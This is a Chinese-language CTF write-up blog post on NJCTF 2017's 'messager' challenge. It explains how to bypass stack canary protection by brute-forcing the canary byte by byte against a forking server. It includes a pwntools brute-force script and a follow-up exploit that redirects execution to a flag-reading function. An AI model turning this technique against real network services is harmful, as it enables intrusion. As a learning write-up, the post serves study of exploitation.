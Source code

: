 title: 栈溢出之绕过CANARY保护
date: 2017-03-14 16:37:50
tags: Pwn
categories: H-blog
---

上周从NJCTF的其中一题messager，学到了绕CANARY保护的一种姿势

<!--more-->

bin我拖下来了: <https://github.com/Hcamael/CTF_repo/tree/master/NJCTF%202017/pwn150(messager)>

其实很简单的一个思路.

CANARY保护机制的原理，是在一个函数入口处从fs，内存的某个地方获取一个值，可以想象成是cookie，存到栈中，在程序要返回的时候，判断栈中的这个cookie是否正确，如果不正确则判断为栈溢出

因为cookie是从内存的一个未知的地方获取到的，值是未知，当我们进行栈溢出攻击的时候，控制ret跳转的地址，肯定是会把cookie给覆盖掉，导致程序判断为栈溢出，程序退出，攻击失败

这题的问题出在fork函数，该题是自己写了一个socket, 接受到请求后fork出一个子进程，和用户做交互，父进程继续监听端口

fork函数的作用相当于自我复制，每一次复制出来的程序，内存布局都是一样的，当然cookie值也是一样的

这样就存在一个可能，我们可以一个byte一个byte的对cookie进行爆破，如果程序跪了则表明cookie错误，如果程序正常返回则表示cookie正确，我们通过栈溢出对cookie的最低位开始逐个覆盖，爆破出该位的正确cookie值

我的爆破脚本:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

# blasting canary
canary = "\x00"
padding = "a"*104

for x in xrange(7):
	for y in xrange(256):
		p = remote("127.0.0.1", 5555)
		print p.recv()
		p.send(padding+canary+chr(y))
		try:
			info = p.recv()
			print info
		except:
			p.close()
			continue
		p.close()
		break
	canary += chr(y)

print "success get blasting!"
print canary.encode('hex')
```

这里还有个知识点，上面代码中我只爆破了7 byte，因为最低位的byte一定是`\x00`，这为了防止其他漏洞会导致栈信息泄露，有个`\x00`cookie后面的数据就不会被泄露出来了.

得到cookie值了后，就是很简单的栈溢出了，栈溢出的时候把爆破出来的cookie值覆盖掉栈中的cookie(也就相当于cookie不变)，从而绕过CANARY保护机制.

附之后的利用脚本:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

canary = "\x00\x10\xea\x4c\xa1\x11\xc4\xb8"
p = remote("127.0.0.1", 5555)
p.recv()

ret = 0x400b76
ret2 = 0x400bc6

p.send(padding+canary+"a"*8+p64(ret)+p64(ret2))
print p.recv()
```

上面代码中`ret`指向的函数是一个读取flag的函数，`ret2`为输出读入的信息，bin就有获取flag的函数了，所以不需要再麻烦的去跑libc了, 如果是要getshell的话，则还需要去跑下libc


